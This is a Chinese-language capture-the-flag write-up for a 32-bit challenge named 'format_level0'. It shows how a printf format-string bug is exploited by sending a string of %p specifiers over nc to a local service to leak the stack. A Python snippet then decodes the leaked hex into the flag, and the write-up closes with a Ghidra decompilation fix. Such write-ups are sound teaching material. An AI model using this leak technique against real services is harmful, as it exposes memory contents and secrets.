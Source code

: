 # format level0

## 文件分析

下载`format_level0`, 保护全开
ghidra分析为32位程序

## 解题思路

> Ghidra这次解析失误了，完全不可读...  
> 用的Decompiler Explorer，BinaryNinja给出的正确代码
>
> ![GhidraFailure](../assets/GhidraFail.png)

反编译后，flag已被读取到栈上，并且存在printf漏洞，gdb调试可知该flag位于第7个参数  
笨办法强攻：使用大量%p泄露栈上信息，找到flag后解析(直接%7$s会SIGSEGV)

## EXPLOIT

nc localhost 34109  
*%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p*

从第7个16进制数开始复制flag直到0xa的内容

```python
txt = "<C-S-v>" # 粘贴内容
slices = txt.split('0x')[1:]
flag = ''

for s in slices:
    for i in range(6, -1, -2):
        flag += chr(int(s[i:i+2], 16))

print(flag)
```

> 奇怪的是，别的flag都是moectf开头，这个是JBtf开头，不知道出题者何意

Done.

## HOTFIX

已在github发issue得到回复：只需要将`.plt`, `.plt.sec`和`.plt.got`全部设置好ebx的值即可，
在`.plt`中已给出ebx值，只要在其他段全选后右键设置寄存器的值与`.got`的首地址相同即可

[REF](https://github.com/NationalSecurityAgency/ghidra/issues/5825)
